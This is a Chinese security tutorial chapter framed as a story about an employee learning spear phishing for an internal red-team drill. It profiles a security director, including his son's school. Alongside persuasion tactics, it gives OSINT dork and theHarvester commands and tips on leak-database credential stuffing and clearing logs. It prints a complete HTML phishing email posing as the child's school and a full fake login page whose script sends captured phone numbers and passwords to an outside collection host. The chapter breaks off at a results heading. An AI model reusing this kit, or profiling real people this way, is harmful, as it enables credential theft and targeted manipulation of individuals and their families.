





# 第126章 内向技术宅到社工钓鱼大师（下）

> **难度等级：⭐⭐⭐ 进阶+**
>
> **预计阅读时间：180分钟**
>
> **本章看点：鱼叉式钓鱼、Evilginx2中间人钓鱼、绕过2FA/MFA、OSINT情报收集、护网红队实战、横向移动、钓鱼之王、社恐到自信的蜕变**
>
> ::: tip 说明
> 本章承接第125章的故事，继续讲小陈从"会用工具的钓鱼新人"到"懂心理学的社工大师"的蜕变之路。
>
> 文中所有人物姓名、公司名称、地点、时间都已做脱敏处理，但成长经历、技术细节、心路历程，都是真实的。
>
> 看完这一章，你会明白：
> - 鱼叉式钓鱼为什么是社工的"狙击枪"
> - Evilginx2是怎么绕过双因素认证的（2FA并不是万能的）
> - OSINT情报收集是怎么把"陌生人"变成"透明人"的
> - 真实护网中，钓鱼是怎么撕开防线的
> - 一个社恐，是怎么变成自信的社工专家的
> :::

---

## 📖 本章概述

::: tip 写在前面
上一章讲到，小陈从一个连话都说不利索的社恐，被逼上钓鱼这条路。

两周时间，他从0%中招率的"喂鱼大师"，做到了30%中招率的"钓鱼新人"。
他研究了Gophish、SET、邮件伪造、钓鱼页面制作、水坑攻击、U盘钓鱼、二维码钓鱼。

但是，他自己知道——这还远远不够。
30%的中招率，对付普通员工可以。
对付有安全意识的人？对付高管？对付开了双因素认证的系统？
通通不行。

这一章，你会看到：
- 小陈是怎么从"会用工具"进化到"懂心理学"的
- 鱼叉式钓鱼的完整设计流程：从画像到话术到落地
- Evilginx2中间人钓鱼，怎么把"不可绕过"的2FA按在地上摩擦
- OSINT情报收集的十八般武艺
- 第一次参加护网红队，遇到全员安全培训的铁桶阵，怎么破局
- 通过一封定制化鱼叉邮件，撕开防线，最终拿到核心系统权限
- 从"透明人"到"钓鱼之王"的完整蜕变
- 一个关于"理解人性比掌握技术更重要"的故事
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 鱼叉式钓鱼和群发钓鱼的本质区别
- [x] 高管社工画像的完整维度
- [x] Evilginx2的工作原理和配置方法
- [x] 2FA/MFA为什么会被中间人钓鱼绕过
- [x] OSINT情报收集的常用工具和方法
- [x] 护网红队中社工钓鱼环节的完整流程
- [x] 针对不同岗位设计差异化话术的方法
- [x] 拿到邮箱后如何横向扩展到核心系统
- [x] 社恐者如何建立专业自信
- [x] "技术是手段，人性才是核心"的真正含义

---

## 🧠 从"会用工具"到"懂心理学"

### 1.1 30%之后的瓶颈

第一次30%中招率成功之后，小陈没有飘。

他清楚地知道，自己只是个"会用工具的初学者"。

**小陈的自我反思（日记节选）：**
```
📝 2024年8月XX日

今天又复盘了一下上次钓鱼演练。

30%中招率，听起来不错。
但是仔细想想：
- 中招的45个人里，没有一个是高管
- 没有一个是IT部门
- 没有一个是开了2FA的账号
- 几个老员工（工龄5年+）几乎都没上钩

也就是说，我钓到的都是"小鱼"。
真正有价值的"大鱼"，我一个都没钓到。

如果对面是真红队，他们要打的目标是：
- 高管邮箱（权限大，能看到的资料多）
- 财务账号（能转账，能看财报）
- 运维账号（能登服务器，能改配置）
- 域管账号（直接拿域）

这些"大鱼"，我的钓鱼根本打不动。

为什么？
1. 高管有秘书过滤邮件，普通邮件根本到不了他们眼前
2. 财务有专门的财务系统，不通过OA登录
3. 运维都开2FA，就算钓到密码也登不进去
4. 域管更不用说，权限管控严得要命

我现在的钓鱼，就像是用网捞小鱼。
要钓大鱼，得换"鱼叉"。
```

> 💡 **小陈的顿悟：**
> 30%是"群发钓鱼"的天花板。
> 要往上走，必须研究"鱼叉式钓鱼"——针对特定目标的精准打击。
> 这是质的飞跃，不是量的提升。

### 1.2 重新读《影响力》

小陈把之前读过的《影响力》又拿出来，这次是带着"鱼叉钓鱼"的问题重读。

**重读笔记（节选）：**
```
📖 《影响力》六大原则在鱼叉钓鱼中的应用：

1. 互惠（Reciprocity）
   → 群发钓鱼：用不上（不认识对方，没法"先给"）
   → 鱼叉钓鱼：能用！
     例子：先给目标"泄露"一份行业报告，建立信任后再钓鱼

2. 承诺与一致（Commitment & Consistency）
   → 群发钓鱼：用不上
   → 鱼叉钓鱼：能用！
     例子：让目标先回复"确认参加"，再发钓鱼链接
     一旦他回复了，后续操作的"一致性"就会让他放松警惕

3. 社会认同（Social Proof）
   → 群发钓鱼：用"已有1000+同事完成"（粗略）
   → 鱼叉钓鱼：用真实人物背书
     例子："王总也参加了这个会议"（针对知道王总的目标）

4. 喜好（Liking）
   → 群发钓鱼：用不上（不认识对方）
   → 鱼叉钓鱼：核心武器！
     例子：冒充目标认识的人，或者冒充目标喜欢的品牌

5. 权威（Authority）
   → 群发钓鱼：用"IT部门"（粗略）
   → 鱼叉钓鱼：用具体权威人物
     例子：冒充目标的直接领导、行业大牛、政府监管部门

6. 稀缺（Scarcity）
   → 群发钓鱼：用"今晚24点过期"（粗略）
   → 鱼叉钓鱼：用目标真正在意的东西
     例子："只限5个高管名额的私董会"
     例子："您儿子的奖学金名额，仅限本周"
```

> 💡 **小陈的领悟：**
> 同样是这六大原则，群发钓鱼只能"用皮毛"，鱼叉钓鱼才能"用骨髓"。
> 因为鱼叉钓鱼的前提是——你足够了解目标，能找到他真正在意的、真正恐惧的、真正渴望的东西。
>
> 这就是为什么鱼叉钓鱼的威力远大于群发。
> 不是因为话术更花哨，而是因为更"懂"对方。

### 1.3 心理学深潜：恐惧、贪婪、好奇之外的"第四种力量"

读了更多心理学书之后，小陈发现，除了"恐惧/贪婪/好奇"三大弱点，还有一种更隐秘的力量——**"承诺与一致性"陷阱**。

**小陈的笔记：**
```
🧠 第四种力量：承诺与一致性（Commitment & Consistency）

什么叫"承诺与一致性"？
人一旦做出了某个承诺（哪怕是微小的），
就会倾向于在后续行为中保持一致，以维护自己的形象。

经典实验：
  研究员敲门："能否在窗户上贴一个'安全驾驶'的小贴纸？"（很小的事）
  几周后再来："能否在院子里立一个巨大的'安全驾驶'广告牌？"（很大的事）
  
  结果：之前同意贴贴纸的人，76%同意立广告牌
        之前没贴贴纸的人，只有17%同意

为什么？因为贴了贴纸的人，已经在心里认定"我是支持安全驾驶的"。
立广告牌虽然麻烦，但和之前的承诺一致，所以他们同意。

钓鱼应用：
  第一步：让目标做一个"微小的承诺"
    例子：邮件里问"您下周三有时间参加一个15分钟的安全意识培训吗？"
    目标回复"好的"
    
  第二步：基于这个承诺，发钓鱼链接
    "好的，培训链接在这里，请用您的域账号登录查看培训材料"
    目标已经承诺要参加，心理上倾向于"完成这件事"
    警惕性大大降低
```

**图126-1 鱼叉钓鱼的心理学武器库**


### 1.4 小陈的"鱼叉方法论"

经过一个月的疯狂研究，小陈总结出了一套自己的"鱼叉钓鱼方法论"。

**小陈的鱼叉钓鱼方法论（v1.0）：**
```
🎯 鱼叉钓鱼七步法：

第一步：选定目标（Who）
   - 不是"群发"了事，而是选定具体个人
   - 选择标准：
     * 价值高（权限大、能访问敏感数据）
     * 防御弱（安全意识相对低、不常换密码）
     * 可达性高（邮件能直接到，不被秘书过滤）

第二步：情报收集（Know him）
   - OSINT收集目标的公开信息
   - 社交媒体、行业论坛、公司官网
   - 兴趣、家庭、行程、人脉、习惯
   - 越详细越好，最好比他老婆还了解他

第三步：社工画像（Profile）
   - 把情报整理成"人物画像"
   - 关键维度：
     * 工作角色（职位、汇报关系、关键业务）
     * 性格特征（外向/内向、谨慎/大意）
     * 心理弱点（最在意什么、最害怕什么）
     * 行为习惯（什么时候看邮件、用什么客户端）
     * 社交关系（认识谁、信任谁）

第四步：寻找切入点（Hook）
   - 基于画像，找最可能的"上钩点"
   - 例子：
     * 目标儿子要高考 → "高考志愿填报私享会"
     * 目标喜欢打高尔夫 → "高尔夫俱乐部会员邀请"
     * 目标刚升职 → "新晋管理者领导力培训"
     * 目标在出差 → "差旅报销异常提醒"

第五步：设计话术（Craft）
   - 围绕切入点，设计完整话术
   - 关键要素：
     * 发件人：必须可信（冒充权威或熟人）
     * 主题：必须引起注意但不引起怀疑
     * 正文：触发情绪（恐惧/贪婪/好奇/承诺）
     * 行动：明确且简单（"点击链接""回复邮件"）
     * 闭环：让目标觉得"按你说的做"是最优选择

第六步：制作钓鱼资产（Build）
   - 钓鱼域名（相似域名，配置SPF/DKIM/DMARC）
   - 钓鱼页面（100%克隆真实页面）
   - 钓鱼邮件（HTML格式，注意每一个细节）
   - 必要时：钓鱼附件（带宏的Office文档、LNK文件）

第七步：执行与收尾（Execute & Clean）
   - 选择最佳时机发送
   - 实时监控是否中招
   - 中招后立即利用（防密码改了、防目标反应过来）
   - 清理痕迹（删除邮件、清除日志）
```

> 💡 **小陈的话：**
> "群发钓鱼是撒网，鱼叉钓鱼是狙击。
> 撒网靠广度，狙击靠精度。
> 一个狙击手，80%的时间在瞄准，20%的时间在扣扳机。
> 鱼叉钓鱼也是，80%的精力在情报收集和话术设计，20%在执行。"

---

## 🎯 鱼叉式钓鱼：针对高管的精准打击

### 2.1 第一次鱼叉钓鱼演练

研究完方法论，小陈向老周申请，做一次"鱼叉钓鱼演练"。

这次目标不是普通员工，而是公司内部的5位"模拟高管"——其实是包括老周在内的5个安全部核心成员。

**为什么选安全部？**
```
🤔 选安全部作为目标的理由：

1. 安全部的人警惕性最高
   - 如果能钓到他们，说明钓鱼水平真的到位了
   - 如果钓不到，也能找出问题，继续优化

2. 安全部的人权限大
   - 安全部有各种管理后台权限
   - 拿到安全部账号，相当于拿到公司安全的钥匙

3. 不会真出事
   - 演练对象是自己人，就算中招也没影响
   - 同时也是给安全部做一次"内部红队"
```

### 2.2 情报收集：把"老周"研究透

小陈选定的第一个目标，是老周。

**老周的社工画像：**
```
👤 老周（安全部总监）画像

【基本信息】
- 姓名：周XX
- 年龄：42岁
- 职位：安全部总监
- 工龄：15年
- 家庭：已婚，一子（10岁，小学四年级）
- 居住：某小区，距公司约15公里
- 爱好：钓鱼、看NBA、喝普洱茶
- 性格：稳重、谨慎、但有点"老好人"

【工作信息】
- 直接汇报：CTO
- 下属：8人（攻击组3人，防守组5人）
- 关键权限：安全管理后台、堡垒机、WAF策略
- 邮箱：zhouxx@company.com
- 工号：A0012

【行为习惯】
- 早上8:30到公司
- 中午12:00吃饭，经常和CTO一起
- 下午经常开会
- 晚上6:30下班
- 周末喜欢去郊区钓鱼
- 邮件查看习惯：每天早上9点和下午2点集中处理
- 用Outlook客户端，桌面是Windows 10

【心理特征】
- 最在意：儿子的教育（10岁正是关键期）
- 最害怕：出安全事故（背锅）
- 最渴望：升职到CSO（信息安全总监）
- 软肋：儿子相关的事情，警惕性会下降

【社交关系】
- 老婆：某小学老师
- 儿子：在XX附小读四年级
- 老同学：几个大学同学在安全圈
- 钓鱼群：3个钓友群，经常约钓鱼
```

**OSINT情报收集过程：**
```bash
# 小陈用了一系列OSINT工具，把老周的公开信息扒了一遍

# 1. 搜索引擎OSINT
# Google Dorking
site:linkedin.com "周XX" "安全" "company"
site:weibo.com "周XX"
"周XX" "钓鱼" "公司"

# 2. 社交媒体
# 微博：找到老周的微博，平时发钓鱼照片、NBA评论
# 朋友圈：通过共同好友，能看到部分朋友圈
# 知乎：老周在知乎回答过几个安全问题
# 脉脉：老周的脉脉主页，职位、过往经历

# 3. 公司公开信息
# 公司官网：老周在安全月活动上做过分享
# 招聘网站：从老周招聘的岗位，能推断他的团队结构
# 行业会议：老周在某安全大会做过演讲

# 4. 泄露数据库
# Have I Been Pwned：查老周邮箱是否在泄露库中
# 各大泄露库：查老周用过的密码（撞库）

# 5. 子域名和资产
# 用Sublist3r查公司子域名
sublist3r -d company.com

# 用theHarvester查邮箱
theHarvester -d company.com -b all

# 6. 反查电话
# 通过老周手机号，反查关联的社交媒体账号
```

**theHarvester的使用示例：**
```bash
# 安装theHarvester
# Kali Linux自带，其他系统可以pip安装
pip3 install theHarvester

# 使用
theHarvester -d company.com -b all

# 输出示例（脱敏）：
# [*] Emails found:
# ------------------
# zhouxx@company.com
# it-support@company.com
# hr@company.com
# ...（共47个邮箱）

# [*] Hosts found:
# ------------------
# mail.company.com:1.2.3.4
# oa.company.com:1.2.3.5
# vpn.company.com:1.2.3.6
# ...（共23个子域名）
```

> 💡 **OSINT是什么？**
> OSINT = Open Source Intelligence，开源情报
> 就是从公开渠道收集信息。
> 别小看"公开"二字，一个人在网上的公开信息加起来，可能比你想象的还要详细。
> 姓名、邮箱、手机、家庭住址、家庭成员、行程、爱好、社交关系...几乎全部都能查到。

### 2.3 找到切入点：儿子

通过情报收集，小陈发现老周最大的"软肋"是儿子。

老周的儿子10岁，在XX附小读四年级。老周的微博里，每隔一两周就会发一条关于儿子的内容——"今天儿子数学考了95分""陪儿子去科技馆""儿子说要当科学家"...

**小陈的判断：**
```
🎯 切入点分析：

老周对儿子的教育非常上心。
任何和"儿子教育"相关的事情，他的警惕性都会下降。

可能的切入点：
1. 儿子的学校相关
   - "学校通知"
   - "家长会"
   - "兴趣班"

2. 儿子的升学相关
   - "小升初政策"
   - "重点中学开放日"
   - "奥数比赛"

3. 儿子的安全相关
   - "校园安全提醒"
   - "儿童防拐教育"

最佳切入点：
XX附小是名校，每年都有"校园开放日"
老周的儿子四年级，离小升初还有2年
正是家长开始关注升学信息的时候

→ 设计一封"XX附小校园开放日预约"邮件
→ 老周大概率会点
```

### 2.4 设计鱼叉邮件

小陈开始设计针对老周的鱼叉邮件。

**这封邮件的设计要点：**
```
📋 针对老周的鱼叉邮件设计要点：

【发件人】
- 伪装成"XX附小家长服务中心"
- 域名：xx-fuxiao-parents.com（注册的相似域名）
- 配置好SPF/DKIM/DMARC

【收件人】
- zhouxx@company.com（老周的公司邮箱）

【主题】
- "【XX附小】2024年校园开放日预约通知（四年级专场）"
- 为什么这么写：
  * "XX附小" → 真实校名，建立信任
  * "校园开放日" → 学校真实活动
  * "四年级专场" → 精准命中老周儿子的年级
  * 让老周觉得"这是学校发的，和我儿子有关"

【正文关键要素】
1. 称呼：尊敬的家长（不要写老周全名，学校通知不会写全名）
2. 内容：校园开放日介绍 + 预约链接
3. 心理触发：
   - "每班限10个家庭" → 稀缺
   - "仅限本周预约" → 紧迫感
   - "请使用您预留的手机号登录" → 看起来正规
4. 钓鱼链接：
   - "预约链接" → 跳转到钓鱼页面
   - 钓鱼页面伪装成"家长登录"页

【钓鱼页面】
- 伪装成"XX附小家长服务系统"登录页
- 需要输入：手机号 + 密码
- 老周大概率会用他常用的密码（很多人密码复用）
- 拿到这个密码，去试公司邮箱、OA、VPN...

【闭环设计】
- 提交后跳转到一个"预约成功"页面
- 显示"已预约，开放日当天请凭此页面入场"
- 老周完全不会怀疑
```

**最终邮件模板：**
```html
<!-- 邮件主题 -->
主题：【XX附小】2024年校园开放日预约通知（四年级专场）

<!-- 邮件正文（HTML） -->
<html>
<body style="font-family: 'Microsoft YaHei', Arial, sans-serif; font-size: 14px; color: #333; line-height: 1.8;">

<table width="680" cellpadding="0" cellspacing="0" style="margin: 0 auto; border: 1px solid #e0e0e0; border-radius: 4px;">
  
  <!-- 头部 -->
  <tr>
    <td style="background-color: #c8102e; padding: 25px 30px; text-align: left;">
      <span style="color: #fff; font-size: 22px; font-weight: bold;">XX附小 · 家长服务中心</span>
      <span style="color: #fff; font-size: 12px; float: right; margin-top: 8px;">官方通知</span>
    </td>
  </tr>
  
  <!-- 正文 -->
  <tr>
    <td style="padding: 30px;">
      
      <p>尊敬的家长：</p>
      
      <p>您好！</p>
      
      <p>感谢您一直以来对XX附小的信任与支持。为帮助四年级学生家长更好地了解学校教学理念、<b>提前规划小升初方向</b>，我校定于<b>2024年9月21日（周六）</b>举办"四年级专场校园开放日"活动。</p>
      
      <p><b>活动安排：</b></p>
      <table cellpadding="8" cellspacing="0" style="width: 100%; border-collapse: collapse; border: 1px solid #e0e0e0; margin: 15px 0;">
        <tr style="background-color: #f5f5f5;">
          <td style="border: 1px solid #e0e0e0;"><b>时间</b></td>
          <td style="border: 1px solid #e0e0e0;">2024年9月21日（周六）9:00-12:00</td>
        </tr>
        <tr>
          <td style="border: 1px solid #e0e0e0;"><b>地点</b></td>
          <td style="border: 1px solid #e0e0e0;">XX附小本部 · 报告厅</td>
        </tr>
        <tr style="background-color: #f5f5f5;">
          <td style="border: 1px solid #e0e0e0;"><b>对象</b></td>
          <td style="border: 1px solid #e0e0e0;">本校四年级学生家长（每班限10个家庭）</td>
        </tr>
        <tr>
          <td style="border: 1px solid #e0e0e0;"><b>内容</b></td>
          <td style="border: 1px solid #e0e0e0;">小升初政策解读 / 名校招生趋势 / 现场答疑</td>
        </tr>
      </table>
      
      <p style="background-color: #fff7e6; border-left: 4px solid #faad14; padding: 12px 16px; margin: 20px 0;">
        ⚠️ <b>名额有限，每班仅限10个家庭，额满即止。</b><br>
        请于<b>本周日（9月15日）24:00前</b>完成预约，逾期不再受理。
      </p>
      
      <p style="text-align: center; margin: 30px 0;">
        <a href="{{.URL}}" style="background-color: #c8102e; color: #fff; padding: 14px 50px; text-decoration: none; border-radius: 4px; font-size: 16px; display: inline-block; font-weight: bold;">立即预约开放日</a>
      </p>
      
      <p style="color: #666; font-size: 13px;">预约时请使用您<b>预留的手机号</b>登录家长服务系统。如手机号已变更，请提前联系班主任更新。</p>
      
      <p style="color: #999; font-size: 12px; margin-top: 25px; border-top: 1px solid #eee; padding-top: 15px;">
        本邮件由XX附小家长服务系统自动发送，请勿直接回复。<br>
        如有疑问，请联系班主任或拨打家长服务热线：0XX-XXXXXXXX。
      </p>
      
    </td>
  </tr>
  
  <!-- 底部 -->
  <tr>
    <td style="background-color: #f5f5f5; padding: 15px 30px; text-align: center; color: #999; font-size: 12px;">
      © 2024 XX师范大学附属小学 · 家长服务中心
    </td>
  </tr>
</table>

</body>
</html>
```

> 💡 **这封邮件"毒"在哪里？**
> 1. **校名真实**：XX附小是真校名，老周一眼就信
> 2. **年级精准**：四年级专场，正好命中老周儿子
> 3. **时间合理**：9月21日周六，符合学校活动安排
> 4. **内容戳心**："提前规划小升初方向"——这是四年级家长最关心的话题
> 5. **稀缺+紧迫**：每班限10个家庭，本周日截止
> 6. **专业格式**：表格、提醒框、官方口吻
> 7. **细节到位**：预留手机号登录、联系班主任——符合学校真实流程
> 8. **不留破绽**：发件人域名、SPF/DKIM/DMARC都配置好了

### 2.5 钓鱼页面：家长服务系统

小陈做了一个"XX附小家长服务系统"的钓鱼页面。

这个页面不能克隆真实页面（学校家长系统老周不一定用过），所以小陈"原创"了一个看起来很正规的页面。

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>XX附小 · 家长服务系统</title>
    <style>
        body {
            font-family: 'Microsoft YaHei', sans-serif;
            background: #f5f5f5;
            margin: 0;
            padding: 0;
        }
        .header {
            background: #c8102e;
            color: #fff;
            padding: 20px;
            text-align: center;
        }
        .header h1 {
            margin: 0;
            font-size: 24px;
        }
        .header p {
            margin: 5px 0 0;
            font-size: 13px;
            opacity: 0.9;
        }
        .container {
            max-width: 480px;
            margin: 30px auto;
            background: #fff;
            border-radius: 8px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.08);
            padding: 40px;
        }
        .title {
            text-align: center;
            color: #333;
            margin-bottom: 30px;
        }
        .title h2 {
            margin: 0 0 10px;
            font-size: 20px;
        }
        .title p {
            margin: 0;
            color: #999;
            font-size: 13px;
        }
        .form-group {
            margin-bottom: 20px;
        }
        .form-group label {
            display: block;
            margin-bottom: 8px;
            color: #666;
            font-size: 14px;
        }
        .form-group input {
            width: 100%;
            padding: 12px;
            border: 1px solid #ddd;
            border-radius: 4px;
            font-size: 14px;
            box-sizing: border-box;
        }
        .form-group input:focus {
            border-color: #c8102e;
            outline: none;
        }
        .btn {
            width: 100%;
            padding: 14px;
            background: #c8102e;
            color: #fff;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            cursor: pointer;
            margin-top: 10px;
        }
        .btn:hover {
            background: #a00d24;
        }
        .notice {
            background: #fff7e6;
            border: 1px solid #ffd591;
            padding: 12px;
            border-radius: 4px;
            margin-bottom: 25px;
            font-size: 13px;
            color: #ad6800;
        }
        .footer {
            text-align: center;
            margin-top: 30px;
            color: #999;
            font-size: 12px;
        }
    </style>
</head>
<body>
    <div class="header">
        <h1>XX师范大学附属小学</h1>
        <p>家长服务系统 · 家校共育，成就未来</p>
    </div>
    
    <div class="container">
        <div class="title">
            <h2>校园开放日预约</h2>
            <p>请使用预留手机号登录</p>
        </div>
        
        <div class="notice">
            ℹ️ 首次登录请使用孩子的<b>出生日期</b>作为初始密码（格式：YYYYMMDD）
        </div>
        
        <form id="loginForm">
            <div class="form-group">
                <label>手机号</label>
                <input type="text" name="phone" placeholder="请输入您预留的手机号" autocomplete="off">
            </div>
            <div class="form-group">
                <label>密码</label>
                <input type="password" name="password" placeholder="请输入密码">
            </div>
            <button type="submit" class="btn">登 录 并 预 约</button>
        </form>
        
        <div class="footer">
            如忘记密码，请联系班主任重置<br>
            © 2024 XX附小 · 家长服务中心
        </div>
    </div>

    <script>
    document.getElementById('loginForm').addEventListener('submit', function(e) {
        e.preventDefault();
        
        const btn = this.querySelector('.btn');
        const originalText = btn.textContent;
        btn.textContent = '登录中...';
        btn.disabled = true;
        
        const data = {
            phone: this.phone.value,
            password: this.password.value,
            source: 'fuxiao_phishing',
            target: 'zhouxx'
        };
        
        fetch('https://phish.company-update.com/capture', {
            method: 'POST',
            body: JSON.stringify(data),
            headers: {'Content-Type': 'application/json'}
        }).finally(() => {
            setTimeout(() => {
                // 跳转到预约成功页面
                window.location.href = 'success.html';
            }, 1500);
        });
    });
    </script>
</body>
</html>
```

> 💡 **这个钓鱼页面的"绝杀"设计：**
> "首次登录请使用孩子的出生日期作为初始密码"——这一句是核心。
>
> 为什么？
> 1. 老周儿子的生日，他肯定知道
> 2. 老周可能会想："这是初始密码，我用孩子的生日试试"
> 3. 但老周大概率会用自己常用的密码（密码复用习惯）
> 4. 不管他用生日还是常用密码，我们都能拿到
> 5. 如果是常用密码，还能拿去撞其他系统

### 2.6 鱼叉钓鱼演练结果

